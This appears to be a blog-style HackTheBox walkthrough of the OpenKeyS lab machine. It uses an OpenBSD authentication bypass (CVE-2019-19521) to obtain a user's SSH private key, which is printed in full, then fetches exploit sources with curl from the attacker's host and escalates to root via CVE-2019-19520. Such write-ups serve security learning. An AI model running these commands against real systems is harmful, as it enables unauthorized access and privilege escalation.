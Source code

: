 ```yaml
---
layout: post
title:  "HackTheBox >_ OpenKeys_199"
description: walkthrough
category: HackTheBox
---
```

# OpenKeys_199
![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-09-58.png)

Use the rustscan to find port quickly

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-19-46.png)

Then have a nmap scan

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-21-27.png)

OpenBSD

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-23-10.png)

OpenKeyS - Retrieve your OpenSSH Keys

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-53-55.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-36-27.png)

.swp

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-37-06.png)


jenniferopenkeys.htb/var/www/htdocs/includes/auth.php 

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-38-54.png)

jennifer openkeys.htb


![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-50-55.png)

`https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt`


![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-57-02.png)

`$ ssh -v -F /dev/null -o PreferredAuthentications=keyboard-interactive -o KbdInteractiveDevices=bsdauth -l -sresponse:passwd 10.10.10.209`

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-09-56-26.png)

vulnable

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-03-16.png)



![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-06-34.png)


username:"-schallenge:passwd"

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-33-22.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-33-45.png)

need the user name, so add it after PHPSESSID.

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-39-29.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-40-04.png)

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAo4LwXsnKH6jzcmIKSlePCo/2YWklHnGn50YeINLm7LqVMDJJnbNx
OI6lTsb9qpn0zhehBS2RCx/i6YNWpmBBPCy6s2CxsYSiRd3S7NftPNKanTTQFKfOpEn7rG
nag+n7Ke+iZ1U/FEw4yNwHrrEI2pklGagQjnZgZUADzxVArjN5RsAPYE50mpVB7JO8E7DR
PWCfMNZYd7uIFBVRrQKgM/n087fUyEyFZGibq8BRLNNwUYidkJOmgKSFoSOa9+6B0ou5oU
qjP7fp0kpsJ/XM1gsDR/75lxegO22PPfz15ZC04APKFlLJo1ZEtozcmBDxdODJ3iTXj8Js
kLV+lnJAMInjK3TOoj9F4cZ5WTk29v/c7aExv9zQYZ+sHdoZtLy27JobZJli/9veIp8hBG
717QzQxMmKpvnlc76HLigzqmNoq4UxSZlhYRclBUs3l5CU9pdsCb3U1tVSFZPNvQgNO2JD
S7O6sUJFu6mXiolTmt9eF+8SvEdZDHXvAqqvXqBRAAAFmKm8m76pvJu+AAAAB3NzaC1yc2
EAAAGBAKOC8F7Jyh+o83JiCkpXjwqP9mFpJR5xp+dGHiDS5uy6lTAySZ2zcTiOpU7G/aqZ
9M4XoQUtkQsf4umDVqZgQTwsurNgsbGEokXd0uzX7TzSmp000BSnzqRJ+6xp2oPp+ynvom
dVPxRMOMjcB66xCNqZJRmoEI52YGVAA88VQK4zeUbAD2BOdJqVQeyTvBOw0T1gnzDWWHe7
iBQVUa0CoDP59PO31MhMhWRom6vAUSzTcFGInZCTpoCkhaEjmvfugdKLuaFKoz+36dJKbC
f1zNYLA0f++ZcXoDttjz389eWQtOADyhZSyaNWRLaM3JgQ8XTgyd4k14/CbJC1fpZyQDCJ
4yt0zqI/ReHGeVk5Nvb/3O2hMb/c0GGfrB3aGbS8tuyaG2SZYv/b3iKfIQRu9e0M0MTJiq
b55XO+hy4oM6pjaKuFMUmZYWEXJQVLN5eQlPaXbAm91NbVUhWTzb0IDTtiQ0uzurFCRbup
l4qJU5rfXhfvErxHWQx17wKqr16gUQAAAAMBAAEAAAGBAJjT/uUpyIDVAk5L8oBP3IOr0U
Z051vQMXZKJEjbtzlWn7C/n+0FVnLdaQb7mQcHBThH/5l+YI48THOj7a5uUyryR8L3Qr7A
UIfq8IWswLHTyu3a+g4EVnFaMSCSg8o+PSKSN4JLvDy1jXG3rnqKP9NJxtJ3MpplbG3Wan
j4zU7FD7qgMv759aSykz6TSvxAjSHIGKKmBWRL5MGYt5F03dYW7+uITBq24wrZd38NrxGt
wtKCVXtXdg3ROJFHXUYVJsX09Yv5tH5dxs93Re0HoDSLZuQyIc5iDHnR4CT+0QEX14u3EL
TxaoqT6GBtynwP7Z79s9G5VAF46deQW6jEtc6akIbcyEzU9T3YjrZ2rAaECkJo4+ppjiJp
NmDe8LSyaXKDIvC8lb3b5oixFZAvkGIvnIHhgRGv/+pHTqo9dDDd+utlIzGPBXsTRYG2Vz
j7Zl0cYleUzPXdsf5deSpoXY7axwlyEkAXvavFVjU1UgZ8uIqu8W1BiODbcOK8jMgDkQAA
AMB0rxI03D/q8PzTgKml88XoxhqokLqIgevkfL/IK4z8728r+3jLqfbR9mE3Vr4tPjfgOq
eaCUkHTiEo6Z3TnkpbTVmhQbCExRdOvxPfPYyvI7r5wxkTEgVXJTuaoUJtJYJJH2n6bgB3
WIQfNilqAesxeiM4MOmKEQcHiGNHbbVW+ehuSdfDmZZb0qQkPZK3KH2ioOaXCNA0h+FC+g
dhqTJhv2vl1X/Jy/assyr80KFC9Eo1DTah2TLnJZJpuJjENS4AAADBAM0xIVEJZWEdWGOg
G1vwKHWBI9iNSdxn1c+SHIuGNm6RTrrxuDljYWaV0VBn4cmpswBcJ2O+AOLKZvnMJlmWKy
Dlq6MFiEIyVKqjv0pDM3C2EaAA38szMKGC+Q0Mky6xvyMqDn6hqI2Y7UNFtCj1b/aLI8cB
rfBeN4sCM8c/gk+QWYIMAsSWjOyNIBjy+wPHjd1lDEpo2DqYfmE8MjpGOtMeJjP2pcyWF6
CxcVbm6skasewcJa4Bhj/MrJJ+KjpIjQAAAMEAy/+8Z+EM0lHgraAXbmmyUYDV3uaCT6ku
Alz0bhIR2/CSkWLHF46Y1FkYCxlJWgnn6Vw43M0yqn2qIxuZZ32dw1kCwW4UNphyAQT1t5
eXBJSsuum8VUW5oOVVaZb1clU/0y5nrjbbqlPfo5EVWu/oE3gBmSPfbMKuh9nwsKJ2fi0P
bp1ZxZvcghw2DwmKpxc+wWvIUQp8NEe6H334hC0EAXalOgmJwLXNPZ+nV6pri4qLEM6mcT
qtQ5OEFcmVIA/VAAAAG2plbm5pZmVyQG9wZW5rZXlzLmh0Yi5sb2NhbAECAwQFBgc=
-----END OPENSSH PRIVATE KEY-----
```

```bash
$ nano id_rsa

$ chmod 600 id_rsa

$ ssh -i id_rsa jennifer@10.10.10.199
```

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-42-56.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-44-00.png)

----

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-45-50.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-10-46-37.png)

python -m SimpleHTTPServer 8080

curl -o lib.c http://10.10.14.22:8080/lib.c

curl -o poc.c http://10.10.14.22:8080/poc.c

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-11-08-35.png)

----
![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-11-22-57.png)

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-11-23-35.png)

`https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot`

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-11-21-04.png)

copy the output password, and paste into.

Then we get root.

![]({{ site.url }}/assets/OpenKeys_199.assets/2020-11-09-11-21-46.png)
